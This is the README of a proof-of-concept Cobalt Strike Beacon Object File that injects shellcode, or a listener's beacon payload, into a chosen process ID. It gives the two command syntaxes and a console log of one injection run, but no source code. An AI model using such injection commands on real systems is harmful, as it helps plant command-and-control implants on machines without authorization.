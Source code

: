 # PrimitiveInjection
PrimitiveInjection BOF POC by using Read, Write and Allocation Primitives.  

## Usage

This BOF registers 2 commands,  
primitive_shinject to inject any shellcode to a PID.
```
primitive_shinject PID path_to_bin
3/08 13:06:21 UTC [task] <> Primitive Injection (thanos)
03/08 13:06:21 UTC [task] <> Reading shellcode from: /home/test/beacon.bin
03/08 13:06:27 UTC [checkin] host called home, sent: 321455 bytes
03/08 13:06:28 UTC [output]
received output:
[+] Peb Address: 0x0000000001118000


03/08 13:06:28 UTC [output]
received output:
[+] Read 8 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Heap Base Addr: 0000000001330000


03/08 13:06:28 UTC [output]
received output:
[+] Heap Allocation: 000000000A0FBBB0


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 1232 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 8 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Heap Allocation: 000000000169AD30


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 1232 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 8 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Heap Allocation: 000000000169C700


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 1232 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 8 bytes


03/08 13:06:28 UTC [output]
received output:
[+] Wrote 312271 bytes
```
primitive_inject to inject to a PID the shellcode of a listener in cobalt
```
primitive_inject PID listener_name
```

